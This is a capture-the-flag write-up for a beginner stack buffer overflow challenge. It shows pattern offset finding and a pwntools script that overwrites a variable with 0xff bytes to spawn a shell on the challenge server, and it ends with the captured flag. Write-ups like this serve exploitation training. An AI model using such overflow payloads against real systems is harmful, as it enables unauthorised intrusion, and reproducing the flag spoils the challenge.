








# beginner-generic-pwn-number-0

<p align="center">
    <kbd></kbd><br/>
</p>

From the source code, I understand that I need to modify the value of inspirational_message_index to -1 (0xffffffff) in order to spawn a shell.

<p align="center">
    <kbd></kbd><br/>
</p>

It compares `rbp-0x8` with 0xffffffffffffffff

<p align="center">
    <kbd></kbd><br/>
</p>

Perform fuzzing:
`$ pattern_create 48`
<p align="center">
    <kbd></kbd><br/>
</p>

View registers
`$ info registers`
<p align="center">
    <kbd></kbd><br/>
</p>

Print the value in `rdp-0x8`
`$ p *0x7fffffffdfc8`
<p align="center">
    <kbd></kbd><br/>
</p>

`$ pattern_offset 0x41304141`
<p align="center">
    <kbd></kbd><br/>
</p>

So, I need to spray 40 random characters and then 0xffffffffffffffff to modify the value of inspirational_message_index variable.

I created a script to perform our exploit.

```
from pwn import *

input = "A"*40 + "\xff\xff\xff\xff\xff\xff\xff\xff"


p = remote("mc.ax", 31199) 
#p = process("./beginner-generic-pwn-number-0")
p.recvuntil("cheer me up")
p.sendline(input)
p.interactive()
```

Run the exploit:
`$ python3 exploit.py`
<p align="center">
    <kbd></kbd><br/>
</p>

Flag: `flag{im-feeling-a-lot-better-but-rob-still-doesnt-pay-me}`